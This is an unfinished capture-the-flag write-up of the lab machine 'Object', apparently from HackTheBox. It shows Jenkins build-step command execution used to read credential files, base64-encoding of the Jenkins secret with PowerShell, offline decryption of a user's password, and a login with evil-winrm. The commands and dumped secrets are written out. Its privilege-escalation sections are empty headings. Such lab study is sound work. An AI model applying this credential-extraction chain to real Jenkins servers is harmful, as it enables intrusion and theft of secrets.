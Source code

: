 #InProgress 
```IP
10.10.11.132
```
# Enumeration

## HTTP 80
Microsoft IIS httpd 10.0
## HTTP 8080
Jetty 9.4.43.v20210629
jenkins

we can create a new account and a project
we can configure it to execute commands when building
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216121014.png?raw=true)
indeed we get a hit to our machine from the target machine, so they can communicate
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216121050.png?raw=true)
File discovery
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217101445.png?raw=true)
We can start an enumeration in order to discover some sensitive files
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241217102055.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241218111857.png?raw=true)
If we want to decrypt some credentials we find that it is possible to decrypt them as long as we have the following files:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241218112410.png?raw=true)
https://github.com/tweksteen/jenkins-decrypt/blob/master/decrypt.py
```
type C:\Users\Oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035\config.xml
type C:\Users\Oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key
type C:\Users\Oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret
```
We get the following output:
```
Started by timer
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test
[test] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins16329493271903675368.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test>type C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035\config.xml 
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>admin</id>
  <fullName>admin</fullName>
  <properties>
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@2.6.1">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
        <entry>
          <com.cloudbees.plugins.credentials.domains.Domain>
            <specifications/>
          </com.cloudbees.plugins.credentials.domains.Domain>
          <java.util.concurrent.CopyOnWriteArrayList>
            <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
              <id>320a60b9-1e5c-4399-8afe-44466c9cde9e</id>
              <description></description>
              <username>oliver</username>
              <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          </java.util.concurrent.CopyOnWriteArrayList>
        </entry>
      </domainCredentialsMap>
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
    <hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty plugin="email-ext@2.84">
      <triggers/>
    </hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty>
    <hudson.model.MyViewsProperty>
      <views>
        <hudson.model.AllView>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
          <name>all</name>
          <filterExecutors>false</filterExecutors>
          <filterQueue>false</filterQueue>
          <properties class="hudson.model.View$PropertyList"/>
        </hudson.model.AllView>
      </views>
    </hudson.model.MyViewsProperty>
    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.3.5">
      <providerId>default</providerId>
    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>
    <hudson.model.PaneStatusProperties>
      <collapsed/>
    </hudson.model.PaneStatusProperties>
    <jenkins.security.seed.UserSeedProperty>
      <seed>ea75b5bd80e4763e</seed>
    </jenkins.security.seed.UserSeedProperty>
    <hudson.search.UserSearchProperty>
      <insensitiveSearch>true</insensitiveSearch>
    </hudson.search.UserSearchProperty>
    <hudson.model.TimeZoneProperty/>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$q17aCNxgciQt8S246U4ZauOccOY7wlkDih9b/0j4IVjZsdjUNAPoW</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@1.34">
      <emailAddress>admin@object.local</emailAddress>
    </hudson.tasks.Mailer_-UserProperty>
    <jenkins.security.ApiTokenProperty>
      <tokenStore>
        <tokenList/>
      </tokenStore>
    </jenkins.security.ApiTokenProperty>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1634793332195</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test>type C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key 
f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test>type C:\Users\Oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.Secret 
�aPTñ‹ìQw3è¨¾®Ã€ƒg·¢dw-J)
uM†’,Ábˆn¨
\îÙ!Ë÷s¢E¹Ä1âªaí;>©×õU‹‡¾Õµÿ™Þ8	îÆ½¿xd$³ÌYU
©k1Î‘}ôAö»Ýv–…í„�¬©•
`K� 8
D�aIâXÒD-Å"´¾¯í‹äGt\ñQå_]Æš”�Ç>J/©«ÎL('ÞìU§ �JÌ“á­|R´7Šè=vP7ˆ:ˆDÕ{ºKI8²Äžû!U�×§“úêXÊ P¿fŠáE4ìLÜ¤^ˆöð‡*áËù‚ZˆuÒ®tdÊ„! 7zßQ"
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test>exit 0 
Finished: SUCCESS
```
In order to get the binary we can convert it to base64
```
powershell.exe -c "$c=[convert]::ToBase64String((Get-Content -path 'c:\Users\oliver\Appdata\local\jenkins\.jenkins\secrets\hudson.util.Secret' -Encoding
byte));Write-Output $c"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241218115035.png?raw=true)
```
gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
```
Now we create our 3 files:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241218115315.png?raw=true)
And we decode our hudson file:
```
echo files/hudson.util.Secret |base64 -d > files/hudson.util.Secret.decrypted
```
Since the last decrypt tool did not work, we will try the following one:
https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py
```
wget https://raw.githubusercontent.com/gquere/pwn_jenkins/refs/heads/master/offline_decryption/jenkins_offline_decrypt.py
```
```
python jenkins_offline_decrypt.py ../files/master.key ../files/hudson.util.Secret.decrypted ../files/config.xml
```
and we get the password for oliver!
```
c1cdfun_d2434
```
And now we have local access to object.htb with evil-winrm
```
evil-winrm -i 10.10.11.132 -u oliver -p 'c1cdfun_d2434'
```
And we have the user.txt flag:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241218122448.png?raw=true)
# Exploitation

# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

# Lateral Movement
